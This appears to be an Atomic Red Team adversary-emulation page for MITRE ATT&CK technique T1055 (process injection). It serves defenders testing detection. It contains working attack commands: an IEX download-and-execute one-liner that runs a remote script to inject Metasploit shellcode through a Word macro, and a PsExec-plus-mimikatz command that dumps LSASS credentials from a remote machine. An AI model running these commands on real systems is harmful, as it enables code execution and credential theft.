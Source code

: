 # T1055 - Process Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055)
<blockquote>Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process. 

There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific. 

More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Shellcode execution via VBA](#atomic-test-1---shellcode-execution-via-vba)

- [Atomic Test #2 - Remote Process Injection in LSASS via mimikatz](#atomic-test-2---remote-process-injection-in-lsass-via-mimikatz)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1055\src\x64\T1055-macrocode.txt" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_path} /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
